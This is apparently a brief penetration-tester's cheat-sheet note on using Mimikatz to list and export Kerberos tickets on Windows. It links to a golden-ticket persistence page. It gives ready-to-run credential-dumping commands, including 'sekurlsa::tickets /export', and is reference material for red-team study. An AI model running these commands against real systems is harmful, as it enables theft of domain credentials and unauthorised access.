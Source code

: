 # Mimikatz

## Extracting Tickets

Check if tickets are present

```
C:\> klist

mimikatz # kerberos::list

mimikatz # kerberos::tgt
```

Extract tickets

```
mimikatz # sekurlsa::tickets /export
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Persistence/Windows/Domain Persistence/Create Ticket/Golden Ticket/C2 Frameworks/Metasploit]]